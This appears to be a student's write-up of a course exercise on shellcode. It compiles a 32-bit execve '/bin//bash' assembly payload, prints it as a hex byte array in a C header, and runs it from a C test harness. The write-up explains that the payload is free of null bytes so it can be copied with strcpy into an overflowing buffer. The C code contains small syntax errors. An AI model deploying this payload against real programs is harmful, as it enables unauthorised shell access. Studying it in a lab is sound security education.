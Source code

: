 __4. Compile this program and describe how you use some tool to extract the hexadecimal
representation of your binary. Deliver a C header file in which you use your hexadecimal
representation to fill a character array. Deliver a C program which tests your program from
the last step and shortly describe how it works.__

```bash
$ nasm -felf32 shlle32_v2.nasm -o shell32v2.o   
```
Using `objdump` to extract machine specific instructions (in hexadecimal) from object file generated `shell32v2.o`


![Objdump](../task4/images/objdump.PNG)


__Header file__

- payload.h

```c
extern char hexContent={"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69
\x6e\x2f\x68\x2f\x2f\x2f\x2f\x54\x5b\x6a\x0b
\x58\xcd\x80"};

```

- c program

```c

#include<stdio.h>
#include<string.h>
#include "payload.h"

unsigned char shellcode[] = hexContent
int main(){
  printf("Shellcode Length: %d\n", strlen(shellcode));
  int (*ret)() = (int(*)())shellcode;
  ret();
}

```


__5. Modify your assembler code from step two so that it generates a binary that can be copied
completely in your buffer (using strcpy). Indicate your modifications and explain the
constraints your binary has to fulfill and why.__

__solution__
- The object code generated from previous step does'nt produces `null` bytes or any bad characters which can be used directly in this step.



__6: Your shellcode is now ready for insertion. Describe in your own words how you construct the
input to exploit example4.c and outline the corresponding content.__
